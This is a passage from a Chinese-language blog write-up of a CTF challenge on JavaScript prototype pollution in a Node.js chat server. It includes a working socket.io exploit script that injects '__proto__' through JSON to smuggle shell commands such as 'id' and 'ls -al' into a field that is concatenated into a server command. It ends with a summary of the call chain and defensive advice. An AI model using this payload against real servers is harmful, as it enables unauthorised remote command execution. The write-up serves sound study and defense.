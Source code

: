 

其中这个方法 `getOwnPropertyDescriptor()`,返回指定对象上自有属性的对应描述符，由于我们通过 JSON.parse() 方法传入的对象已经具有 \_\_proto\_\_ 这个属性了，所以可以用这个方法获取到。

通过 Object.create() 函数创建对象，原型使用我们构造的对象的原型，即具有普通属性的 \_\_proto\_\_,则可以成功通过这个方法使得 newObj 拥有我们可控的 country 属性，而后面方法 `newObj[key]  = this.clone(obj[key])` 再写入一次还是这个结果。至此，属性 country 被写入到操作对象中，等待被调用数据，我们构造如下 payload ：

```javascript
const io = require('socket.io-client')
const socket = io.connect('https://chat.dctfq18.def.camp')  // 测试时换为本地地址

socket.on('error', function (err) {
  console.log('received socket error:')
  console.log(err)
})

socket.on('message', function(msg) {
  console.log(msg.from,"[", msg.channel!==undefined?msg.channel:'Default',"]", "says:\n", msg.message);
});

socket.emit('register', `{"name":"xxx", "__proto__":{"country":"xxx';id;echo 'xxx"}}`);
socket.emit('message', JSON.stringify({ msg: "hello" }));
socket.emit('register', `{"name":"xxx", "__proto__":{"country":"xxx';ls -al;echo 'xxx"}}`);
```

访问触发：

![15](https://raw.githubusercontent.com/59lx/userful_photo/master/myblog_photos/prototype/15.png)



我们总结一下整个调用链：

```
1、客户端传入触发服务端 register 事件时的待解析的数据，包含原型的数据 ------>
2、客户端触发服务端 register 事件，传入数据被 JSON.parse() 方法解析后传入 clone 方法,由于__proto__ 是普通属性，可以将 country 的值赋给返回的对象 ------>
3、返回一个具有 country 属性的对象，值就是我们传入的值，拼接调用 getAscii 方法，执行命令 ------>
4、服务端返回执行命令的消息给客户端，攻击达成
```





# 5@ 总结



利用一定的函数特征可以检测出一部分的 api 是否具有潜在的 prototype_pollution 的风险，这里是一位国外学者分析的[结果](<https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf>)。

其实这种攻击的防御是比较容易的，合并或者给对象属性赋值之前，检查键名是否为 `__proto__` 等敏感词即可。

